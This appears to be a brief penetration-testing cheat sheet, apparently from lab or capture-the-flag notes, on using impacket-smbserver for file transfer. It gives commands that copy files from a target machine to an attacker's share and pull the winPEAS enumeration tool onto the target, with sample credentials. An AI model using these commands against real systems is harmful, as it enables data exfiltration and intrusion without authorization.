 ```yaml
---
tags:
---
```

# smbserver

Quick SMB server to upload and download files

## Capabilities

```bash
# Setup SMB server
sudo impacket-smbserver -smb2support share $(pwd)

# Include authentication
net use \\10.10.14.82\share /user:mojo password123
net use \\10.10.14.82\share /delete
```

Interact with the SMB server from the target's machine

```powershell
# Move file from target to attack box
cp target_file.txt \\$OUR_IP\share\target_file.txt

# Move file from attack box to target
cp \\$OUR_IP\share\winPEASany.exe winPEAS.exe

# Include authentication
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.82\share\playercounter-1.0-SNAPSHOT.jar
```
